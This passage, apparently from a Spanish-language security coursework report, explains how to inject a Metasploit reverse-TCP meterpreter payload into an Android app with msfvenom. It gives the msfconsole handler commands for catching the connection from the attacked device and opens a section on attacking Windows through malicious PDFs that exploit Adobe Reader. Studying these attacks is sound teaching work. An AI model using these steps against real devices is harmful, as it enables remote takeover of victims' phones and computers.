 \begin{itemize}
    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>  
    \item \texttt{LHOST}: dirección IP a la cual conectarse
    \item \texttt{LPORT}: puerto al cual establecer la conexión 
\end{itemize}

Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

\begin{figure}[H]
    \centering
    \texttt{[image: meterpreter-android]}
    \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
\end{figure}

\subsection{Windows}

\emph{Basado en ejemplo aterior, como realizaría el mismo ataque contra un equipo Microsoft Windows. Puede utilizar un archivo PDF como vector de ataque} 

Dentro de la suite de programas de Adobe, uno de los más usado es su lector de PDFs, \textbf{Adobe Reader}. Este programa posee varias vulnerabilidades de las cuales uno se puede aprovechar para inyectar código malicioso en un archivo PDF. De las vulnerabilidades disponibles, a continuación se mostrará cómo explotar dos de ellas disponibles en Metasploit.

